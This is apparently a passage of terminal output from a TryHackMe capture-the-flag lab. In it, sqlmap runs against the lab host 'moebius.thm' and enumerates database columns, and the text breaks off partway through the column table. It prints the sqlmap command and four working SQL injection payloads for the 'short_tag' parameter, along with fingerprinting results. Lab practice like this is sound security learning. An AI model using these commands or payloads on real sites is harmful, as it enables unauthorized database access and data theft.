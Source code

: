 [18:54:26] [INFO] fetched data logged to text files under '/home/alvan/.local/share/sqlmap/output/moebius.thm'
[18:54:26] [WARNING] your sqlmap version is outdated

[*] ending @ 18:54:26 /2025-08-15/

                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/moebius]
└─$ sqlmap -u 'http://moebius.thm/album.php?short_tag=smart' -p short_tag -D web -T albums --columns
        ___
       __H__                                                                                                        
 ___ ___[(]_____ ___ ___  {1.8.5#stable}                                                                            
|_ -| . ["]     | .'| . |                                                                                           
|___|_  [(]_|_|_|__,|  _|                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                        

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:54:51 /2025-08-15/

[18:54:51] [INFO] resuming back-end DBMS 'mysql' 
[18:54:51] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: short_tag (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: short_tag=smart' AND 7563=7563-- IGsL

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: short_tag=smart' AND (SELECT 3761 FROM(SELECT COUNT(*),CONCAT(0x71626b6271,(SELECT (ELT(3761=3761,1))),0x717a767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- vzPc

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)
    Payload: short_tag=smart' AND 5750=BENCHMARK(5000000,MD5(0x50755a70))-- JJUJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: short_tag=-2214' UNION ALL SELECT CONCAT(0x71626b6271,0x756e71587362614b515a505a6565476471464b4a7268417549625548576e52634453717a54624a6c,0x717a767871)-- -
---
[18:54:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62, PHP 8.4.4
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:54:53] [INFO] fetching columns for table 'albums' in database 'web'
[18:54:59] [INFO] retrieved: 'short_tag','text'
[18:55:00] [INFO] retrieved: 'name','text'
[18:55:01] [INFO] retrieved: 'description','text'
Database: web                                                                                                      
Table: albums
[3 columns]
+-------------+------+
| Column      | Type |
+-------------+------+
| description | text |
| name        | text |